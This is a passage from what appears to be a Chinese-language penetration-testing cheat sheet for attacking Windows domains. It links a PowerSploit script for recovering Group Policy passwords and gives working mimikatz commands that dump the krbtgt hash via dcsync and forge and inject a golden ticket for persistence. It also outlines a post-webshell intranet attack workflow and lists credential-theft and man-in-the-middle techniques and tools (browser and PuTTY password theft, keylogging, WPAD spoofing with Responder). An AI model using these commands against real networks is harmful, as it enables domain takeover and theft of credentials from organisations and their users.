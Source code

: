       脚本link：
      https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

      [利用SYSVOL还原组策略中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

  40. ##### 黄金票据(维权)

      域用户sid

      ```
      whoami /all
      ```

      krbtgt hash

      ```
      mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
      ```

      域管
      net group “domain admins” /domain 这里是administrator

      ```
      mimikatz "kerberos::purge"
      "kerberos::golden /admin:administrator /domain:xx.com /sid:S-1-5-..... /krbtgt:hash /ticket:Adminstrator.kiribi"
      "kerberos::ptt Administrator.kiribi"
      "kerberos::tgt"
      ```

      # 总结

      首先，利用 webshell 执行开篇的命令收集内网前期信息(不局限用 webshell)，也可以用 msf 等平台，或 powershell 收集信息，判断机器所处区域，是 DMZ 区，还是办公区，核心 DB等;机器作用是文件服务器，Web，测试服务器，代理服务，还是 DNS，DB 等;网络连通性，文中也提到测试 dns，tcp，http 等命令，理清内网拓扑图，网段，扫描内网，路由，交换机，端口等判断是域还是组，组的话，用常见 web 方法，域的话 gpp，kerberos，黄金白银票据，抓密码，这里注意密码有的有空格，pth，ptk,spn 扫描，ipc,445,web 漏洞，各种未授权，密码相同,历史命令等，期间会遇到提权，bypass uac，bypass av。 

      

## 某些大佬语录

------

利用漏洞配置不当获取更多主机权限
常见应用漏洞：
struts2、zabbix、axis、ImageMagic、fastcgi、Shellshock、redis 未授权访问、Hadoop、weblogic、jboss、WebSphere、Coldfusion
常见语言反序列化漏洞
php、Java、python、ruby、node.js
数据库漏洞及配置不当
mssql Get-SQLServerAccess、MySQL 低版本 hash 登陆、MySQL 低版本Authentication Bypass、域内 mssql 凭证获取密码、monggodb 未授权访问、memcache 配置不当
内网中很多 web 应用存在常见漏洞、使用有漏洞的中间件和框架、弱口令及配置不当（注入、任意文件读取、备份、源码泄漏（rsync、git、svn、DS_Store）、代码执行、xss、弱口令、上传漏洞、权限绕过…）
web应用、及数据库中寻找其他服务器密码信息（ftp、mail、smb、ldap存储、sql…）
系统备份文件（ghost）中读密码
在已有控制权限主机中，查看各浏览器书签、cookie、存储密码、键盘记录收集相关敏感信息、查询注册表中保存密码、读取各客户端连接密码、putty dll注入、putty 密码截取、ssh 连接密码，以获取更多主机权限
推荐工具：NetRipper、Puttyrider.exe、ProwserPasswordDump.exe、LaZagne.exe
ms08-067 远程溢出（极少能碰到）
cmdkey /list 远程终端可信任连接连接 netpass.exe 读取该密码
arp欺骗中间人攻击（替换 sql 数据包、认证凭证获取、密码获取极大不到万不得已不会用）
WPAD 中间人攻击（全称网络代理自动发现协议、截获凭证该种方法不需要ARP欺骗，比较好用的一种方法（使用Responder.py/net-creds.py））
翻阅相关文件及以控制数据库中可能存储配置口令（别忘了回收站）
用已有控制权限的邮箱账号以及前期所了解到的信息进行欺骗（社会工程学）